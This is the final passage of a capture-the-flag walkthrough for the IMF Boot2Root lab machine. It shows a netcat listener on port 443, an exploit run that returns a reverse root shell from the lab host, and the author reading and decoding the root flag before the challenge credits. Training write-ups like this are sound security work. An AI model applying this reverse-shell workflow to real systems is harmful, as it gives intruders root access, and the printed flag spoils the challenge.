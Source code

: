 Set up a netcat listener on port 443, and run the exploit.

```console
root@kali:~# python3 exploit.py
Done!
```

I got a shell with root privileges.

```console
root@kali:~# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.128] 45534
bash -i
bash: cannot set terminal process group (2301): Inappropriate ioctl for device
bash: no job control in this shell
root@imf:/# 
```

I Now have got full access to the system and the root flag can be read.

```console
root@imf:/# cd root
cd root
root@imf:/root# ls
ls
Flag.txt
TheEnd.txt
root@imf:/root# cat Flag.txt
cat Flag.txt
flag6{R2gwc3RQcm90MGMwbHM=}
root@imf:/root# echo -n "R2gwc3RQcm90MGMwbHM=" | base64 -d ; echo
echo -n "R2gwc3RQcm90MGMwbHM=" | base64 -d ; echo
Gh0stProt0c0ls
```

```console
root@imf:/root# cat TheEnd.txt
cat TheEnd.txt
   ____                        _ __   __
  /  _/_ _  ___  ___  ___ ___ (_) /  / /__
 _/ //  ' \/ _ \/ _ \(_-<(_-</ / _ \/ / -_)
/___/_/_/_/ .__/\___/___/___/_/_.__/_/\__/
   __  __/_/        _
  /  |/  (_)__ ___ (_)__  ___
 / /|_/ / (_-<(_-</ / _ \/ _ \
/_/__/_/_/___/___/_/\___/_//_/
  / __/__  ___________
 / _// _ \/ __/ __/ -_)
/_/  \___/_/  \__/\__/

Congratulations on finishing the IMF Boot2Root CTF. I hope you enjoyed it.
Thank you for trying this challenge and please send any feedback.

Geckom
Twitter: @g3ck0ma
Email: geckom@redteamr.com
Web: http://redteamr.com

Special Thanks
Binary Advice: OJ (@TheColonial) and Justin Stevens (@justinsteven)
Web Advice: Menztrual (@menztrual)
Testers: dook (@dooktwit), Menztrual (@menztrual), llid3nlq and OJ(@TheColonial)
```
